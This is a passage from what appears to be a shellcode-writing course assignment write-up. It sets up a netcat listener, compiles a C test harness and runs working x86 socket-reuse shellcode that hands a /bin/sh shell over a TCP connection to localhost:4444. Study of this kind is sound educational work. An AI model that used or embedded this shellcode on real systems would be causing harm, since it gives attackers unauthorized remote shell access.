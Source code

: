 In another window, I set up the `netcat` listener:

```bash
nc -nlp 4444
# fjHh
```

I had to send the string before the C program could connect to it.

Next, compile and run and C program:

```bash
# compile
gcc -w ./file.c

# run
./a.out 
# [+] Trying to find the correct file descriptor
# [+] Correct file descriptor: 3
# [+] Redirecting error, output, and input
```

In the other window you should now have a **reverse shell**.

Now that I've tested that it works correctly, I had to change it a bit, replacing some of the C code with the shellcode:

```cpp
#include <sys/socket.h>
#include <netinet/ip.h>

unsigned char code[] = \
"\x31\xdb\x53\x89\xe6\x6a\x40\xb7\x0a\x53\x56\x53\x89\xe1\x86"
"\xfb\x66\xff\x01\x6a\x66\x58\xcd\x80\x81\x3e\x66\x6a\x48\x68"
"\x75\xf0\x5f\x89\xfb\x6a\x02\x59\x6a\x3f\x58\xcd\x80\x49\x79"
"\xf8\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80";

void main(int argc, char *argv[])
{

    // START block of code of code taken from assignment n.2

    int client_socket_fd;
    char *empty[] = { 0 };
    struct sockaddr_in client_address;

    client_socket_fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    client_address.sin_family = AF_INET;
    inet_aton("127.0.0.1", &amp;client_address.sin_addr);
    client_address.sin_port = htons(4444);
    connect(client_socket_fd, (struct sockaddr *)&amp;client_address, sizeof(client_address));

    // END block of code of code taken from assignment n.2

    int (*ret)() = (int(*)())code;
    ret();
}
```
